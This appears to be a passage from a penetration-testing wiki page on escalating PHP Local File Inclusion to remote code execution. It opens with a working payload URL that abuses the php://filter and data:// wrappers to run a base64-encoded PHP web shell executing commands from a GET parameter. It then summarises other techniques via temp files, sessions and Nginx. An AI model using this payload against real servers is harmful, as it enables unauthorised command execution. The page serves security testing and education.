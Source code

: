 ```url
http://example.com/index.php?page=PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.php

NOTE: the payload is "<?php system($_GET['cmd']);echo 'Shell done !'; ?>"
```

### Via php filters (no file needed)

This [**writeup** ](https://gist.github.com/loknop/b27422d355ea1fd0d90d6dbc1e278d4d)explains that you can use **php filters to generate arbitrary content** as output. Which basically means that you can **generate arbitrary php code** for the include **without needing to write** it into a file.

{% content-ref url="lfi2rce-via-php-filters.md" %}
[lfi2rce-via-php-filters.md](lfi2rce-via-php-filters.md)
{% endcontent-ref %}

### Via segmentation fault

**Upload** a file that will be stored as **temporary** in `/tmp`, then in the **same request,** trigger a **segmentation fault**, and then the **temporary file won't be deleted** and you can search for it.

{% content-ref url="lfi2rce-via-segmentation-fault.md" %}
[lfi2rce-via-segmentation-fault.md](lfi2rce-via-segmentation-fault.md)
{% endcontent-ref %}

### Via Nginx temp file storage

If you found a **Local File Inclusion** and **Nginx** is running in front of PHP you might be able to obtain RCE with the following technique:

{% content-ref url="lfi2rce-via-nginx-temp-files.md" %}
[lfi2rce-via-nginx-temp-files.md](lfi2rce-via-nginx-temp-files.md)
{% endcontent-ref %}

### Via PHP\_SESSION\_UPLOAD\_PROGRESS

If you found a **Local File Inclusion** even if you **don't have a session** and `session.auto_start` is `Off`. If you provide the **`PHP_SESSION_UPLOAD_PROGRESS`** in **multipart POST** data, PHP will **enable the session for you**. You could abuse this to get RCE:

{% content-ref url="via-php_session_upload_progress.md" %}
[via-php\_session\_upload\_progress.md](via-php\_session\_upload\_progress.md)
{% endcontent-ref %}

### Via temp file uploads in Windows

If you found a **Local File Inclusion** and and the server is running in **Windows** you might get RCE:

{% content-ref url="lfi2rce-via-temp-file-uploads.md" %}
[lfi2rce-via-temp-file-uploads.md](lfi2rce-via-temp-file-uploads.md)
{% endcontent-ref %}
